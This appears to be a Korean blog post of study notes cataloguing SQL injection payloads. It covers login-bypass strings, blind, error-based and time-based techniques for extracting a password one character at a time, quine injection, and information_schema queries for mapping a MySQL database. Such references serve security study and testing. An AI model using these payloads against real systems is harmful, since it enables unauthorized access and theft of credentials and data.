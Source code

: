 ```yaml
---
title : "SQL injection 공격 기법"
excerpt : "SQL injection attacks"
toc : true
toc_sticky : true
categories :
  - Web
tags :
  - SQL injection
---
```


## 공격기법 종류
### sql injection
```
select id from table where id='' or 1 #'

select id from table where id='' or id='admin' #'

select id from table where id='' or 1 --%20' 
```

### blind sql injection
```
select id from table where id='' or id='admin' and ascii(substr(pw,1,1))>1 #'

select id from table where id='' or id='admin' and ord(substr(pw,1,1))>1 #'

select id from table where id='' or id='admin' and ascii(substring(pw,1,1))>1 #'

select id from table where id='' or id='admin' and ascii(mid(pw,1,1))>1 #'
```

### error based blind sql injection 
```
-> double형 최대 값 넘은 값(0xffffffff*0xffffffffffff)
-> subquery 리턴 개수 1임을 이용한 에러 이용

select id from table where id='' or id='admin' and if(ascii(substr(pw,1,1))>1,1,0xfffffff*0xffffffffff)#'

select id from table where id='' or id='admin' and if(ascii(substr(pw,1,1))>1,1,(select 1 union select 2)) #'

select id from table where id='' or id='admin' and if(ascii(substr(pw,1,1))>1,1,(select 1 from table)) #'
```
```select 1 from table``` 하면 3개의 값이 리턴됨.
![](/assets/images/subquery_test.png){: .align-center}

### time based blind sql injection
```
select id from table where id='' or id='admin' and ascii(substr(pw,1,1))=48 and sleep(5) #'
```

### quine sql injection
```php
# 싱글쿼트가 필요한 경우
select replace(replace('[prefix] select replace(replace("$",char(34),char(39)),char(36),"$") [postfix]',char(34),char(39)),char(36),'[prefix] select replace(replace("$",char(34),char(39)),char(36),"$") [postfix]') [postfix];

# 더블쿼트가 필요한 경우
select replace(replace("[prefix] select replace(replace('$',char(39),char(34)),char(36),'$') [postfix]",char(39),char(34)),char(36),"[prefix] select replace(replace('$',char(39),char(34)),char(36),'$') [postfix]") [postfix];
```
자세한 건 <a href="https://blog.p6.is/quine-sql-injection/" target="_blank">https://blog.p6.is/quine-sql-injection/</a>  
정리하면 다음과 같음.
```php
$a = [추가해도 됨] select replace(replace("$", char(34), char(39)), char(36), "$") as quine [추가해도 됨]

# -> 단, 더블쿼터가 싱글쿼터로 바뀐다는 점 유의해서 추가

[추가해도 됨] select replace(replace('$a', char(34), char(39)), char(36), '$a') as quine [추가해도 됨]
```

### information_schema를 공격하는 sql injection
```
select user() 또는 select system_user()
-> mysql에 접속한 유저 목록 출력
```
```
select schema_name from information_schema.schemata
-> 해당 mysql 서버에 존재하는 db 목록 출력
```
```
select table_name, column_name from information_schema.columns where table_schema = 'test'
-> test db에 존재하는 테이블, 컬럼 목록 출력

또는 현재 db에 있는 것들을 보고 싶다면
select table_name, column_name from information_schema.columns where table_schema =  database()
```
